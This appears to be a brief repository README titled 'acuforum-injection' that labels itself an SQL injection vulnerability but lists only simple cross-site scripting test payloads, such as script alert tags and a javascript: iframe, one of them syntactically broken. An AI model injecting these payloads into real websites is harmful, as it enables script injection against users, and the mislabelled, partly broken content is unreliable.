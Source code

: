 # acuforum-injection
sql injection vulnerability
<script>alert(1)</script>
<h1>hello</h1>
<script>alert(document.getByID(#anyid))</script>
<br>
<iframe src="javascript:alert(1)"></iframe>
